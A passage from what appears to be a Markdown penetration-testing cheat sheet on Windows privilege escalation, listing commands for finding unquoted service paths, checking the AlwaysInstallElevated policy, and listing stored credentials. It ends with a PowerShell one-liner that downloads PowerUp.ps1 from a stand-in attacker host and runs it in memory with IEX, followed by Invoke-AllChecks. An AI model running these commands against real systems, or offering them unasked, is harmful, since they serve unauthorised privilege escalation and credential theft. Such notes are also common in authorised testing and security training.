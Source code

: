 
> [!example]-
>
> ```sh
> wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
> ```

AlwaysInstallElevated check

> [!info]-
>
> Check whether the `AlwaysInstallElevated` policy is enabled
> for machine (`HKLM`) and user (`HKCU`) —
> if both are set to `1`, non-elevated MSI installs
> can run with `SYSTEM` privileges

> [!example]-
>
> ```sh
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
> ```
> ```sh
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
> ```

Check for stored credentials

> [!example]-
>
> ```sh
> cmdkey /list
> ```
> ```sh
> dir C:\Users\username\AppData\Local\Microsoft\Credentials\
> ```
> ```sh
> dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
> ```

Enumeration with
[PowerUp](https://powersploit.readthedocs.io/en/latest/Privesc/)

> [!example]-
>
> Download and Run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
>
> ```sh
> IEX(New-Object Net.WebClient).DownloadString('http://<attacker.com>/PowerUp.ps1')
> ```
> ```sh
> Invoke-AllChecks
> ```
